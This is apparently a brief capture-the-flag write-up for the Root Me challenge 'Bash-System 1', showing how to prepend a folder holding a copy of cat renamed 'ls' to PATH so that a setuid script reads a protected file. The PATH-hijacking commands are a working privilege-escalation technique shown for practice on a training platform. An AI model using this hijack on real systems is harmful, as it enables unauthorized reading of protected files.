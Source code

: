 ```yaml
---
title: '[Root Me] Bash-System 1'
date: 2022-04-24 09:08 PM
categories: [Root-Me, Script]
tags: [easy, challenge, script]
permalink: /:categories/:title
---
```


We need to copy cat into /tmp, then change the name to "ls" and change the path to that folder.
Now the script will read it as cat.
```bash
> mkdir /tmp/isntma
> cp /bin/cat /tmp/isntma
> mv /tmp/isntma/cat /tmp/isntma/ls
> export PATH=/tmp/isntma:$PATH
> ./ch11
```
